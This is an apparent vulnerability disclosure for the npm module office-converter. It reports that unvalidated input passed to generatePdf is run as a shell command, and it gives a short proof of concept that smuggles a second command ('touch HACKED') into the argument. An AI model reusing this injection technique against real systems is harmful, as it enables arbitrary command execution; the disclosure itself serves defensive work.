 # :bug: Description

The `office-converter` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var converter = require('office-converter')();
converter.generatePdf('"; touch HACKED; #', function(err, result) {
    if (result.status === 0) {
      console.log('Output File located at ' + result.outputFile);
    }
});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i office-converter # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
